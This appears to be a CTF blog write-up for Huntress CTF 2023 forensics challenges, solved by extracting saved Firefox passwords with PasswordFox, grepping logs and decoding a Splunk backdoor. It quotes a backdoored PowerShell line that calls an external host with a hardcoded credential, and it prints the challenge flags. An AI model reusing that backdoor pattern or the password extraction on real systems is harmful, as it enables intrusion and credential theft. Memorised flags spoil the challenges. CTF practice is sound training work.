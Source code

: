 ```yaml
---
layout: page
title: Huntress CTF 23 Forensics
subtitle: "Difficulty: Easy / Medium / Hard"
tags: [CTF, Learning, Forensics]
---
```


# Dumpter Fire - Easy

Unpack the provided file with `tar` which provides folders resembling a Linux root directory. Being an Easy challenge, I decided to do a search on user directories first which revealed a `home/challenge` user. Listing the contents reveals a .mozilla profile - which may contain passwords! I ran the tool `PasswordFox` on the profile to get the flag:

**`flag{35446041dc161cf5c9c325a3d28af3e3}`**

# Traffic - Medium

_We saw some communication to a sketchy site... here's an export of the network traffic. Can you track it down? Some tools like rita or zeek might help dig through all of this data!_

Extract the directory provided which contains a load of Gunzipped logs. Extract with `find . -name "*.gz" -exec gunzip -d {} \;`. Decided to `grep` for word "sketchy" seeing as it's in the challenge description which gets a match for a GitHub site: **sketchysite.github.io**. Navigate to the page to find the flag:

**`flag{8626fe7dcd8d412a80d0b3f0e36afd4a}`**

# Backdoored Splunk - Medium

Try opening instance in my browser and get an error about a missing Authorization header. Unpack the provided files and `grep` for the word **Authorization** and one of the results returns: 

```bash
Splunk_TA_windows/bin/powershell/nt6-health.ps1:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

Decoding this states **"backdoor:use_this_to_authenticate_with_the_deployed_http_server"**. Send a curl request providing the string to the argument `-H Authorization:` which returns the flag in base64 format. Decoded:

**`flag{60bb3bfaf703e0fa36730ab70e115bd7}`**

# Wimble - Easy

Unzip to get a file **fetch**. Run `file` which references Windows WIM - search what this actually is and establish using DISM for mounting.
